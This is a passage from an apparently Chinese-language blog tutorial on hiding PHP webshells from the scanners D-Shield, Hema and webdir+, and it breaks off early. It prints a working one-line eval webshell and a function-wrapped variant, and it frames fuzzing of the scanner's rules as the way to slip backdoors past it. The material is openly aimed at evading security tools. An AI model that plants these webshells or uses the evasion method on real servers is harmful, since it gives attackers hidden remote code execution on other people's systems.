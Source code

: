 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486287&idx=1&sn=a9a0a11e5350baf5fedc4324da4ab948&chksm=ea37f415dd407d0302699cc5d5c8cf2efe51023161f2824ea4cc5231aac81b317fe1acfeed65&mpshare=1&scene=1&srcid=0104RVWmcSXCkd4zKlVjI0n0&sharer_sharetime=1609720712637&sharer_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=4ce5703b2202c0e100883f6b6523541f1193cea61e502056d8031f5bbd42c1723965df6ccd19ae115035e392575837e272155b57091cadc0d211b9ba7e583dcced935d7738a905a45451addd89dca16fde39eb63780de92d724a57b7c79eb33a09f41cac413242f7f3dce0e7eb4bb98a4f2a8f3f6479e62e99de9e7904f1dfb8&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=63010029&lang=zh_CN&exportkey=AalIvAP99M4F3qhC6axrsCM%3D&pass_ticket=yy556pu%2Bp4W4mbvK7Q3O6PIbolc7ebdCh%2F3poyqaL0RGTca9FUoYwlT9SUXPGlGT&wx_header=0&fontgear=2)

**0x00：简介-**

此篇只讨论php，其实原理是相同的，本文的思路依然适用于其他语言  
由于php7.1以后assert不能拆分了，所以此篇不使用assert函数作为核心，使用适用性更广的eval。

免杀顺序依次为D盾 河马 webdir+  
**0x01：探究免杀**

**免杀D盾**  
首先我们需要了解免杀的原理，免杀其实就是绕过杀软的规则，而规则对我们来说是不透明的，但是可以根据fuzz探知个大概。

首先请出我们的一句话木马：

```
<?php @eval($_POST('a'));?>  

```

无论如何混淆webshell，我们期望最终得到的逻辑依然是这条代码，所以答案知道了，想办法混淆就行了。

经过对D盾的探测，可以知道，它对函数的检测其实是比较粗糙的，比如我们构造一个函数，让其返回值拼接为

```
eval($_POST['a'])  

```

```
<?php  
  
function x()  
{  
  
    return $_POST['a'];  
  
}  
  
eval(x());  
?>  

```

D盾扫一下

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

被杀了，显然D盾并没有给出我们为什么这个会被杀，只说是已知后门，这里我们测试一下到底是什么东西被规则杀掉了。
